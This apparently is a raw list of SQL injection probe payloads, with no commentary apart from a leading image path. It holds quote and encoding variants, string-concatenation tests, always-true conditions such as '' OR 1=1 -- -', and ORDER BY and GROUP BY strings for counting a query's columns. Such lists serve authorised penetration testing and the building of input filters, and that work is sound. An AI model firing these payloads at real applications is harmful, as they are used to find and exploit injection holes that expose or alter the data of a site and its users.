 '
%27
"
%22
#
%23
;
%3B
)
Wildcard (*)
&apos;
%%2727
%25%27
[Nothing]
'
"
`
')
")
`)
'))
"))
`))
`+HERP
'||'DERP
'+'herp
' 'DERP
'%20'HERP
'%2B'HERP
'
''
`
``
,
"
""
/
//
\
\\
;
' or "
-- or # 
' OR '1
' OR 1 -- -
" OR "" = "
" OR 1 = 1 -- -
' OR '' = '
'='
'LIKE'
'=0--+
 OR 1=1
' OR 'x'='x
' AND id IS NULL; --
'''''''''''''UNION SELECT '2
%00
/*…*/ 
AND 1
AND 0
AND true
AND false
1-false
1-true
1*56
-2
1' ORDER BY 1--+
1' ORDER BY 2--+
1' ORDER BY 3--+
1' ORDER BY 1,2--+
1' ORDER BY 1,2,3--+
1' GROUP BY 1,2,--+
1' GROUP BY 1,2,3--+
